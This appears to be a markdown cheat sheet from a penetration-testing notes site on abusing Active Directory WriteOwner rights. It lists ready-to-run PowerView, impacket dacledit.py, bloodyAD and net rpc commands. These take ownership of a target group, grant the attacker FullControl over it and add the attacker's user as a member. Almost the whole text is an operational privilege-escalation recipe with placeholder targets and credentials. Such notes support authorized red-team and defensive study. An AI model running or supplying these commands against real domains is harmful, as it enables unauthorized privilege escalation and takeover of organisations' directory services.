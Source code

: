 ```yaml
---
title: "WriteOwner/Own"
date: 2024-7-27
tags: ["Writeowner", "Permissions", "Powerview", "Impacket", "AddMember", "Domain Controller", "Active Directory", "Windows", "Dacledit"]
---
```


### Abuse #1 : Change owner of the group

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

#### 2. Change owner

```console
Set-DomainObjectOwner -Identity <TARGET_GROUP> -OwnerIdentity <TARGET_USER>
```

{{< /tabcontent >}}

### Abuse #2 : Add user to the group

{{< tab set2 tab1 active >}}Linux{{< /tab >}}{{< tab set2 tab2 >}}Windows{{< /tab >}}
{{<  tabcontent set2 tab1  >}}

#### 0. Install latest impacket (included dacledit.py)

```console
git clone https://github.com/fortra/impacket.git
```

```console
cd impacket
```

```console
pip3 install .
```

#### 1. Add full control permission to the user over the group

```console
sudo ntpdate -s <DC> && dacledit.py -k '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -principal <USER> -target <TARGET_GROUP> -inheritance -action write -rights FullControl
```

#### 2. Add the user to group

{{< tab set3 tab1 active >}}bloodyAD{{< /tab >}}{{< tab set3 tab2 >}}rpc{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
python3 bloodyAD.py -k -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> add groupMember '<TARGET_GROUP>' '<USER>'
```

{{< /tabcontent >}}
{{< tabcontent set3 tab2 >}}

```console
kinit <USER>
```

```console
sudo ntpdate -s <DC> && net rpc group addmem '<TARGET_GROUP>' '<USER>' -U '<USER>' --use-kerberos=required -S <DC> --no-pass
```

{{< /tabcontent >}}

#### 3. Check

```console
sudo ntpdate -s <DC> && net rpc group members '<TARGET_GROUP>' -U '<USER>' --use-kerberos=required -S <DC> --no-pass
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

#### 1. Import PowerView.ps1 

```console
. .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Add user to group

```console
Add-DomainObjectAcl -TargetIdentity <TARGET_GROUP> -PrincipalIdentity '<DOMAIN>/<USER>' -Rights All -DomainController <DC> -Credential $cred
```

```console
Add-DomainGroupMember -Identity <TARGET_GROUP> -Members <USER> -Credential $cred
```

#### 4. Check

```console
Get-DomainGroupMember -Identity <TARGET_GROUP> -Domain <DOMAIN> -DomainController <DC> -Credential $cred | fl MemberName
```

```console
# Or
net user <USER>
```

```console
# Exit current sessions or re-login
whoami /groups
```

{{< /tabcontent >}}
